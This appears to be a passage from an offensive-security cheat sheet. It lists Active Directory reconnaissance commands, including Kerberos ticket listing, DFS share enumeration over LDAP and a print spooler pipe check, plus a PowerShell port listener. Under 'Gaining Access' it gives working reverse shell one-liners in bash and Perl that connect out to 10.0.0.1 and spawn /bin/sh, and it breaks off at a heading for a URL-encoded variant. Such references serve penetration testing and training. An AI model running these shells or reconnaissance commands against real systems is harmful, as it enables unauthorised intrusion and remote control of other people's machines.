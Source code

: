 # kerberos tickets for the session
klist

# cached krbtgt
klist tgt

# whoami on older Windows systems
set u

# find DFS shares with ADModule
Get-ADObject -filter * -SearchBase "CN=Dfs-Configuration,CN=System,DC=offense,DC=local" | select name

# find DFS shares with ADSI
$s=[adsisearcher]'(name=*)'; $s.SearchRoot = [adsi]"LDAP://CN=Dfs-Configuration,CN=System,DC=offense,DC=local"; $s.FindAll() | % {$_.properties.name}

# check if spooler service is running on a host
powershell ls "\\dc01\pipe\spoolss"

Listen on a port (Powershell)

# Start listener on port 443
$listener = [System.Net.Sockets.TcpListener]443; $listener.Start();
 
while($true)
{
    $client = $listener.AcceptTcpClient();
    Write-Host $client.client.RemoteEndPoint "connected!";
    $client.Close();
    start-sleep -seconds 1;
}

Gaining Access
Reverse Shell One-Liners
Bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Perl

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

URL-Encoded Perl: Linux
